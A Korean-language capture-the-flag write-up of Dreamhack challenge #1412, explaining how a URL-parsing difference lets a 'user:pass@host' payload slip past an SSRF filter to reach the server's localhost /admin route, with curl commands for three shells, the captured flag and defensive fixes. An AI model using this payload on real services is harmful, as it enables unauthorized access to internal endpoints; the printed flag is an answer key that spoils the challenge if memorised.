





# 실습 보고서 - SSRF (Dreamhack #1412)

> 실습 환경: **Dreamhack (https://dreamhack.io/wargame/challenges/1412)**
> 문제: SSRF 필터 우회

---

## 1. 문제 정보
- **분야**: Web Hacking / SSRF (URL 파싱 차이를 이용한 필터 우회)
- **접속 주소**: http://host3.dreamhack.games:PORT/  (인스턴스마다 다름)
- **목표**: `/check-url`의 SSRF 필터를 우회해, 서버가 **자기 자신의 `/admin`을 localhost로 호출**하게 만든 뒤 FLAG 획득.

---

## 2. FLAG 획득 구조 (왜 SSRF가 필요한가)

```python
flag = "d23b51c4e4d5f7c4e842476fea4be33ba8de9607dfe727c5024c66f78052b70a"   # 초기값

@app.route('/admin',methods=['GET'])          # localhost에서만 접근 가능
def admin():
    global flag
    user_ip = request.remote_addr
    if user_ip != "127.0.0.1":
        return "only localhost."
    if request.args.get('nickname'):
        nickname = request.args.get('nickname')
        flag = sha256_hash(nickname)          # flag 를 sha256(nickname) 으로 덮어씀
        return "success."

@app.route("/flag",methods=['POST'])
def clear():
    global flag
    if flag == sha256_hash(request.args.get('nickname')):
        return "DH{REDACTED}"                 # flag == sha256(내가 아는 nickname) 이면 성공
    else:
        return "you can't bypass SSRF-FILTER zzlol 😛"
```
- `/admin` 은 **127.0.0.1(localhost)** 에서만 호출 가능 → 외부에서 직접 접근 불가.
- 따라서 **SSRF로 서버가 자기 `/admin?nickname=X` 를 localhost로 호출**하게 만들어
  `flag = sha256(X)` 로 세팅한 뒤, `/flag?nickname=X` 로 FLAG를 받는다.

---

## 3. SSRF 필터 분석 (`/check-url`)

필터는 "호스트가 반드시 `www.google.com` 이어야 하고, 그 IP가 공인(public)인지 60초간 검사"한다.
그런데 **호스트를 추출하는 코드에 버그**가 있다.

```python
host = re.search(r'(?<=//)[^/]+', url).group()   # // 뒤 ~ 첫 / 까지 전부
if ":" in host:
    host = host.split(":")[0]                     # ← 콜론 앞부분만 호스트로 간주
if host != "www.google.com":
    return "Host는 반드시 www.google.com이어야 합니다."
```
추가로, `@` 를 막던 코드는 **주석 처리**되어 있어 `@` 사용이 가능하다.
```python
# if "@" in url or "#" in url:   ← 주석 처리됨
```

---

## 4. 취약점 — URL 파싱 차이 (Parsing Differential)

다음 URL을 넣으면 **필터가 보는 호스트**와 **requests가 실제 접속하는 호스트**가 달라진다.
```
http://www.google.com:80@127.0.0.1/admin?nickname=pwned
```

| 관점 | 해석 | 결과 |
|------|------|------|
| **필터** | `www.google.com:80@127.0.0.1` → `:` 기준 split → `[0]` | 호스트 = **`www.google.com`** → 통과, 구글 IP(공인)로 검증 ✅ |
| **requests(실제)** | `www.google.com:80` = userinfo(아이디:비번), `@` 뒤가 진짜 호스트 | 호스트 = **`127.0.0.1`** → 내부 접속 💥 |

→ 필터는 "구글"을 검사하지만, 실제 요청은 "127.0.0.1"로 나간다. 이것이 핵심 취약점.

📸 호스트 추출 버그(`split(":")[0]`) + 주석 처리된 `@` 검사




---

## 5. 익스플로잇 수행

### 5-1. SSRF로 내부 `/admin` 호출 (flag 세팅)
```bash
curl -X POST "http://<인스턴스>/check-url" \
  -H "Content-Type: application/json" \
  -d '{"url":"http://www.google.com:80@127.0.0.1/admin?nickname=pwned"}'
```
- 응답: `{"status_code":200, ...}` → SSRF가 필터를 뚫고 `127.0.0.1/admin` 접속 성공.
- 서버가 자기 `/admin?nickname=pwned` 를 localhost로 호출 → `flag = sha256("pwned")`.
- ⚠️ IP 검증 루프(60초) 때문에 응답까지 **약 1분** 걸린다.

📸 `/check-url` 응답 `status_code:200` (SSRF 성공)



### 5-2. FLAG 획득
```bash
curl -X POST "http://<인스턴스>/flag?nickname=pwned"
```
- `flag == sha256("pwned")` 이 되어 FLAG 반환.

📸 `/flag` 응답에 FLAG 출력



- **획득 FLAG**: `DH{please_share_your_idea_okay_good}`



---

## 6. 취약점 발생 원인
- **검증에 쓰는 호스트 파싱**과 **실제 요청에 쓰는 URL 파싱**이 **다르다** (parsing differential).
  - 필터: 정규식 + `split(":")[0]` 로 조악하게 호스트 추출
  - requests: 표준 URL 규칙(`user:pass@host`)으로 파싱
- `@`(userinfo) 차단 로직이 주석 처리되어 비활성.
- 호스트 "문자열"만 믿고, **실제 접속 대상을 검증하지 않음**.

## 7. 대응 방안
- **검증 지점과 요청 지점이 동일한 파서**를 쓰도록 통일 (직접 정규식 파싱 금지, 표준 URL 파서 사용).
- userinfo(`@`) 포함 URL은 거부하거나, **파싱된 실제 host** 기준으로 검증.
- 목적지는 **화이트리스트**로 제한하고, **접속 직전 실제 IP를 재검증**(DNS 리바인딩·리다이렉트 대비).
- 내부 대역(`127/8` 등) 차단은 **문자열이 아니라 최종 접속 IP** 기준으로.

## 8. 배운 점 / 회고
- SSRF 방어에서 **"필터가 본 호스트"와 "실제로 접속하는 호스트"가 같은지**가 핵심이라는 걸 배웠다.
- `user:pass@host` 형식과 `split(":")` 의 조합이 어떻게 필터를 속이는지 직접 확인했다.
- 블랙리스트/문자열 검증이 아니라 **표준 파서로 파싱된 실제 대상**을 검증해야 안전하다는 점을 체감했다.

---

## 9. 재현용 명령 (실습용)

> `PORT`(인스턴스 주소)만 본인 것으로 바꾸면 그대로 재현된다. nickname 은 아무 값이나 가능.
> 셸마다 **따옴표 처리 방식이 달라** 명령 형태가 조금씩 다르다.

**① WSL / Linux / macOS (bash)** — 작은따옴표, `\` 로 줄바꿈 가능
```bash
# 1) SSRF로 내부 /admin 호출 → flag = sha256("pwned")  (응답까지 ~60초)
curl -X POST "http://host3.dreamhack.games:PORT/check-url" \
  -H "Content-Type: application/json" \
  -d '{"url":"http://www.google.com:80@127.0.0.1/admin?nickname=pwned"}'

# 2) FLAG 획득
curl -X POST "http://host3.dreamhack.games:PORT/flag?nickname=pwned"
```

**② Windows cmd(명령 프롬프트)** — 한 줄, 안쪽 큰따옴표는 `\"` 로 이스케이프
```bat
curl -X POST "http://host3.dreamhack.games:PORT/check-url" -H "Content-Type: application/json" -d "{\"url\":\"http://www.google.com:80@127.0.0.1/admin?nickname=pwned\"}"

curl -X POST "http://host3.dreamhack.games:PORT/flag?nickname=pwned"
```

**③ Windows PowerShell** — `curl.exe` 로 진짜 curl 호출(+ 작은따옴표)
```powershell
curl.exe -X POST "http://host3.dreamhack.games:PORT/check-url" -H "Content-Type: application/json" -d '{"url":"http://www.google.com:80@127.0.0.1/admin?nickname=pwned"}'

curl.exe -X POST "http://host3.dreamhack.games:PORT/flag?nickname=pwned"
```

> ⚠️ ①번 요청은 IP 검증 루프(60초) 때문에 응답까지 약 1분 걸린다 (멈춘 것 아님).

**핵심 페이로드 URL** (셸과 무관하게 동일):
```
http://www.google.com:80@127.0.0.1/admin?nickname=pwned
```

### 참고 자료
- OWASP SSRF: https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
